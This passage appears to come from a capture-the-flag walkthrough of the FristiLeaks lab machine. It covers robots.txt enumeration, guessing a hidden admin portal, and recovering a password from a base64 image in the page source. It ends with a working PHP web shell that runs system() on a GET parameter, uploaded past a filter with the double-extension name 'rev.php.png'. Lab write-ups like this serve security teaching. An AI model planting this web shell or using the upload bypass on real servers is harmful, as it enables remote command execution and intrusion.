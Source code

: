 
```bash
❯ curl http://192.168.0.134/robots.txt
User-agent: *
Disallow: /cola
Disallow: /sisi
Disallow: /beer
```



This 3 directories provides us with the same image which after analysis has nothing to show at all


![](https://i.imgur.com/2qUqv0k.png)


I also tried to fuzz through this discovered endpoints, but nothing also, then i decided to guess the directories trying `/fristileaks` first and `/fristi` which gave us this admin portal


![](https://i.imgur.com/NirOTbU.png)


I tried admin default credentials including SQLi attacks but to no avail so i decided to view source code

1. Found out that a user called `eezeepz` has stored junk base64 data in this source code

![](https://i.imgur.com/O45MCkM.png)

2. Scrolling down i found the base64 encoded message and since as instructed it is an image we will try and do `base642png` for this scenario.


![](https://i.imgur.com/dRhmk9i.png)



Then browsed to this [website](https://base64.guru/converter/decode/image/png) and indeed we have a base64 decoded image, waiting for us. 


![](https://i.imgur.com/zHdoPNr.png)


I thought that this was the password to the `eezeepz` user and as much as i thought, yes it is cos i was able to login with password `keKkeKKeKKeKkEkkEk` and got a upload page


![](https://i.imgur.com/pUyTlMw.png)


After several trial and error i was able to upload the below content with file name as `rev.php.png`


```PHP
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
```